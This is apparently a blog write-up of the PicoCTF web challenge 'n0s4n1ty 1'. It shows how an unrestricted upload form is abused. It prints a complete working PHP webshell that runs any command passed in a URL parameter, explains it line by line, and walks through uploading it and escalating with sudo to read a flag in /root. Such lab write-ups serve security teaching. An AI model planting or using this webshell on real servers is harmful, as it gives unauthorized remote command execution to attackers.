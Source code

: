```yaml
---
title: n0s4n1ty 1
published: 2025-08-07
description: We exploited an unrestricted file upload to deploy a PHP webshell, gaining command execution. Then, using sudo, we captured the flag.
image: ''
tags: [CTF, picoctf, web]
category: PicoCTF
draft: false
---
```

The challenge starts by giving us a simple page containing just a profile upload interface.

![upload interface](./image1.png)

Trying to type or browse through the URL doesn’t give us anything — only a page error. With that, we can assume that the easiest way (and probably the intended way) to proceed is to **upload a shell**.

We don’t need to overthink and build something from scratch — simple solutions often work. So, after a quick search, we found this **simple PHP webshell** shared on Discord (https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985):

```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>

```

### Breaking down the code into simple steps:

- `<form>` → Creates a **form with an input box and a button**.
- `method="GET"` → Means it will **send the text via the URL** (at the top of the browser).
- `name="<?php echo basename($_SERVER['PHP_SELF']); ?>"` → Just gives the form a name using the current file name.
- `<input type="TEXT" name="cmd">` → This is the **box where you type a command**.
- `<input type="SUBMIT">` → This is the **“Execute” button**.
- `if (isset($_GET['cmd']))` → Checks if someone **typed something and pressed the button**...
- `system($_GET['cmd'] . ' 2>&1');` → The server **runs the command in the terminal** and shows the result.


We can put the code into a file. For testing purposes, we’ll name the file photo.php. To upload, we can simply use the upload interface.

![](./image1-2.png)

The page refreshed, leaving us with two findings: the site has no restrictions on file uploads, and our shell is located in the /uploads/photo.php directory.

![](./image1-3.png)

Visiting that path, we see our shell is working as expected.

![](./image2.png)

We use the command `id` to check which user is running our commands. And the user is **www-data**.

![](./image3.png)

One of the hints in the challenge tells us that, once we gain shell access, we should try running `sudo -l`. From this, we learn that the `www-data` user can execute anything **as long as it's run with `sudo`**

![](./image4.png)

As mentioned in the challenge, the flag is located in `/root`. And indeed, when we run the following command, there it is: 

![](./image5.png)

If we try just `sudo cat flag.txt`, it returns “file not found,” so we need to pass the **full path**. And with that, we successfully retrieve the flag.
